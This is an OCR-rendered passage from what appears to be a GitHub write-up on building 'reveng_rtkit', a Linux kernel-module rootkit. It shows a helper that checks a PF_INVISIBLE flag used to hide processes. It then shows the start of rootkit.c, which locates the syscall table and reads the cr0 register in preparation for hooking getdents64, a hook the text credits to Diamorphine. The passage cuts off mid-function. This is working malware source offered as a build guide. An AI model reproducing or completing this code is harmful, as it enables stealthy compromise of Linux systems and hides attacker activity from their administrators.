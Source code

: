                       if (!task)
                      {
                        return 0;
                      }
                      if (task->flags & PF_INVISIBLE)
                      {
                        return 1;
                      }
                      return 0;
                    }
                   ```
                   Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/4eb75d38eee64a1d804e49220c9cbff092671faf/kernel_src/include/hook_syscall_helper.h#L137)
                   Now, comes the last and final part: ***getdents64*** syscall interception.

                   This portion is totally taken from [diamorphine](https://github.com/m0nad/Diamorphine/)
                   
                   1. This is the whole rootkit.c file.
                   ```c
                   // Test_rtkit.c

                   #include <linux/init.h>		/* Needed for the macros */
                   #include <linux/module.h>	/* Needed by all modules */
                   #include <linux/kernel.h>	/* Needed for printing log level messages */
                   #include <linux/list.h>		/* macros related to linked list are defined here. Eg: list_add(), list_del(), list_entry(), etc */
                   #include <linux/cred.h>		/* To change value of this fields we have to invoke prepare_creds(). 
                            * To set those modified values we have to invoke commit_creds(). 
                            * uid, gid and other similar "things" are stored in cred structure which is element of cred structure. */
                   #include "Test_hook_getdents64.h"


                    /* Function Prototypes */

                    static int      __init rootkit_init(void);
                    static void     __exit rootkit_exit(void);


                    // =================== Entry Function ====================

                    static int __init rootkit_init(void)
                    {
                      printk(KERN_INFO "=================================================\n");
                      printk(KERN_INFO "[+] reveng_rtkit: Created by @reveng007(Soumyanil)");
                      printk(KERN_INFO "[+] reveng_rtkit: Loaded \n");

                      __sys_call_table = get_syscall_table();
                      if (!__sys_call_table)
                        return -1;

                      printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", __sys_call_table);


                      /* Executes the instruction to read cr0 register (via inline assembly) and returns the result in a general-purpose register.
                      *
                      * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
                      *
                      * unsigned long (*read_cr0)(void);
                      */
                      cr0 = read_cr0();

